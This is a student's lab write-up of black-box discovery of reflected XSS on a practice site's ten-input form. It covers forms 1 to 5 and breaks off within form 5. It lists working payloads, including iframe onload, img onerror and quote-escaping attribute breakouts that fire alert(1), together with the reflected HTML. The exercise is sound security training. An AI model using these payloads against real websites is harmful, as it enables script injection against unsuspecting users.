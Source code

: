 # Exercise - Black-box discovery of XSS exploits

The goal here is to visit https://331.cybersec.fun/xss.php, which contains 10 input fields and a submit button. The challenge is to break all 10 of these inputs via manual testing. For each injection point, we must find an exploit to display a popup message on the webpage.

## Form 1
- I first tried sending the payload `<script>alert(1)</script>`, and noticed that the response was `alert(1)`. This means our input is being sanitized and reflected.
- I tried using a mix of upper and lowercase with`<sCrIpT>`, with the same result.
- Next, I tried `<img src=x>`, which was also removed.
- I then tried `<iframe>`, which did render an iframe! This is our way to perform XSS!
- The payload `<iframe onload=alert(1)>` works.

## Form 2
Tried sending `aaaa`, and noticed nothing was printed in response. However, when inspecting the response, I noticed this:
```HTML
Response 2 (CVE-2021-24884) 9.6 (CVSS 3.x):
  <a href="https://example.com" data-frmverify="aaaa">
```
So we can see that our input is placed in the `data-frmverify` attribute of the `<a>` tag. This means that if quotes aren't sanitized we can escape this and inject code. Some example payloads are:
- `" onmouseover=alert(1)> aaa`
- `"><img src=x onerror=alert(1)>` (This one triggers as soon as the page loads so I prefer it)

## Form 3
With the same approach as the previous form, we can see that an input of `aaa` returns:
```HTML
<a href="aaa"> Click me</a>
```
Meaning that a similar approach the the previous form could work (and it does). The payload `"><img src=x onerror=alert(1)>` works!

## Form 4
With this form, we can see that our input is being reflected. The payload `<img src=x onerror=alert(1)>` works!

## Form 5
The response here is similar to forms 2 and 3:
```html
<input type='checkbox' name='vuln_form' value='aaa'>
```
If we try escaping the value field with the payload `" onload=alert(1)`, we can see that our `"` is being sanitized as it's not letting us escape the attribute:
```HTML
	<input type='checkbox' name='vuln_form' value='" onload=alert(1)'>
```
However, if we instead try a `'` instead it does work:
```HTML
<input type='checkbox' name='vuln_form' value='' onload='alert(1)'>
```
However, the `onload` event doesn't trigger for this type. If we use the onmouseover event then our alert is displayed whenever the user mouses over the checkbox: `' onmouseover='alert(1)`.

If we try escaping the tags with `'><img src=x onerror='alert(1)`, we can see that the `<>` characters are also being sanitized:
```HTML
	<input type='checkbox' name='vuln_form' value=''&gt;&lt;img src=x onerror='alert(1)'>
```
Even if we send this as their url encoded counterparts `%3c` and `%3e`, we get the same response.
